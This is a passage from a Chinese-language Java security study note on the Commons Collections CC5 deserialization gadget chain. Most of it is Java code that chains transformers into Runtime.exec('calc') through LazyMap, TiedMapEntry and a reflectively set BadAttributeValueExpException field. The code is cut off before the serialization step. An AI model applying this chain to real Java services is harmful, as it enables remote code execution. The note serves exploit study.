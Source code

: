 ### CC5

基本调用就不重复，我们只看前半段的处理

然后就是badAttributeValueExpException的初始化，它不能直接赋值TiedMapEntry，不然会直接调用TiedMapEntry.toString,提前触发链子

![image-20231217161042549](H:/Typora%E7%AC%94%E8%AE%B0/%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0/javasecurityRe0/CC1%E7%B3%BB-%E5%8F%8D%E5%B0%84%E8%B0%83%E7%94%A8Runtime/img/image-20231217161042549.png)



```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5 {
    public static void main(String[] args) throws Exception {
        
        //==================================加载Runtime.getRuntime.exec
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //====================================
        
        
        
        //===============================初始化hashmap以及TiedMapEntry
        HashMap<Object,Object> map=new HashMap<>();
        Map<Object,Object> lazymap = LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapeEntry=new TiedMapEntry(lazymap,"aaa");
        //================================
        
        
        
        //===================初始化badAttributeValueExpException，这里给参不能直接给TiedMapEntry，不然会提前触发tostring，导致链子提前执行
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        //==================

        
        //========================通过反射来对badAttributeValueExpException类中的val进行赋值，因为badAttributeValueExpException在初始化的时候不能传入tiedMapeEntry，不然会直接tonstring触发链子
        Class c=BadAttributeValueExpException.class;
        Field valField=c.getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(badAttributeValueExpException,tiedMapeEntry);
```